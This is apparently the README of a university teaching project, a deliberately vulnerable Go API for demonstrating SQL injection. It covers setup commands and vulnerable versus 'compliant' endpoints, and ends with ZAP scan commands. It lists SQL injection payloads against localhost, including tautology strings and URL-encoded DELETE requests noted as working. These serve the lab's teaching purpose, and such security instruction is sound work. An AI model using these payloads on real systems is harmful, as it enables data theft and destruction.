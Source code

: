 # Dummy API  
    
API written in Golang with SQL injection vulnerability and level code mitigation.

## Run Database

    docker-compose up -d
    docker-compose down
    docker-compose down -v --rmi all
    docker-compose up --build -d

    CURRENT_UID=$(id -u):$(id -g) docker-compose up (colima in Mac OS)

##

    DSN="host=localhost port=54327 user=postgres password=password dbname=sqli sslmode=disable timezone=UTC connect_timeout=5" go run ./cmd/api


## Run API with Makefile (Development environment)

    make start
    make stop
    make build
    make clean
    make restart

    go run ./cmd/api  (Actually disabled)


## Database container (With Docker)

```
docker run \
  -d \
  --name postgres_sqli_eafit \
  -e POSTGRES_HOST_AUTH_METHOD=trust \
  -e POSTGRES_USER=user \
  -e POSTGRES_PASSWORD=password \
  -e POSTGRES_DB=sqli \
  -p 54325:5432 \
  diegoall1990/sqli-pg-db
```

    docker exec -it postgres_sqli_eafit psql -U postgres -d sqli
    docker exec -it linux_postgres_sqli_eafit psql -U postgres -d sqli


## SQL injection scenario


Error based sql Injection

    https://go.dev/doc/database/sql-injection

    https://go.dev/doc/database/querying

    https://mariocarrion.com/2021/10/22/golang-software-architecture-security-databases-sql-injection-permissions.html


### Payloads

Non Compliant code

    localhost:9090/vulnerable/users?id=17' OR ''='

    curl -k localhost:9090/vulnerable/users?id=16' OR ''='

    curl -X DELETE "localhost:9090/vulnerable/users?id=16'"

    curl -X DELETE "localhost:9090/vulnerable/users?id=16'"



## FindUser with SQL Injection
GET http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json

###

## FindUser correct
GET http://localhost:8080/users/correct?id=2 HTTP/1.1
content-type: application/json

###

## DeleteUser with SQL Injection
DELETE http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json
                
                localhost:9090/vulnerable/users?id=3' OR ''='
                localhost:9090/vulnerable/users?id=17' OR ''='
curl -X DELETE "localhost:9090/vulnerable/users?id='16'OR'1'='1' NO
curl -X DELETE "localhost:9090/vulnerable/users?id=16' OR ''='

curl -X DELETE "localhost:9090/vulnerable/users?id='16'OR'1'='1'" 

###

## DeleteUser correct
DELETE http://localhost:8080/users/correct?id=5 HTTP/1.1
content-type: application/json



docker-compose down -v --rmi all


ESCAPAR UNA COMILLA SIMPLE.

EScapar comillas

Payload codificado
percent-encoding (URL encoding)
curl -X DELETE "http://localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27"  SI FUNCIONO
curl -X DELETE localhost:9090/vulnerable/users?id=3%27%20OR%20%27%27=%27  SI FUNCIONO

Compliant code

    localhost:9090/users?id=46' OR ''='


## API collection

You can find the API collections [here](SQL-Injection-EAFIT.postman_collection.json)


          docker exec zap-scanner zap-baseline.py -t http://api:9090 -r zap-report.html -f openapi -I || true
          
          docker exec zap-scanner zap-baseline.py -t http://api:9090 -r zap-report.html -I || true
















